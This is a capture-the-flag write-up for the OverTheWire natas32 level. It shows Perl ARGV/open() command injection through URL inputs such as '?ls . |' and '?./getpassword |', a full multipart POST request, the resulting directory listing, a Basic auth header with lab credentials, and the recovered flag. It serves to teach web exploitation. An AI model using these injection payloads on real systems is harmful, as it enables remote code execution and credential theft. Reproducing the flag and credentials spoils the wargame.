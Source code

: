 ```yaml
---
layout: default
title: natas32
---
```



This time, this is exactly like we talked [natas31](./natas31.md), that we can execute `RCE`

So, let's execute `ls`
* input
> /index.pl?ls%20.%20|
* output
> .:
total 156
drwxr-x--- 5 natas32 natas32 4096 Apr 10 14:18 bootstrap-3.3.6-dist
-rwsrwx--- 1 root natas32 16096 Apr 10 14:18 getpassword
-rw-r--r-- 1 root root 9740 Apr 10 14:18 index-source.html
-r-xr-x--- 1 natas32 natas32 2968 Apr 10 14:18 index.pl
-r-xr-x--- 1 natas32 natas32 97180 Apr 10 14:18 jquery-1.12.3.min.js
-r-xr-x--- 1 natas32 natas32 16877 Apr 10 14:18 sorttable.js
drwxr-x--- 2 natas32 natas32 4096 Jul 11 14:23 tmp

* input
> /index.pl?./getpassword%20|
* output
> 2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ

Fine, let's execute get password:
```
POST /index.pl?./getpassword%20| HTTP/1.1
Host: natas32.natas.labs.overthewire.org
Content-Length: 433
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMjpOYUlXaFcyVklyS3FyYzdhcm9KVkhPWnZrM1JRTWkwQg==
Origin: http://natas32.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarybY5URDoaIvWBSm4C
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://natas31.natas.labs.overthewire.org/index.pl
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,he;q=0.8
Connection: keep-alive

------WebKitFormBoundarybY5URDoaIvWBSm4C
Content-Disposition: form-data; name="file"; 
Content-Type: application/octet-stream

ARGV
------WebKitFormBoundarybY5URDoaIvWBSm4C
Content-Disposition: form-data; name="file"; filename="sample"
Content-Type: application/octet-stream

bla
------WebKitFormBoundarybY5URDoaIvWBSm4C
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundarybY5URDoaIvWBSm4C--
```
![Flag image](./images/level31.png)

**Flag:** ***`2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ`*** 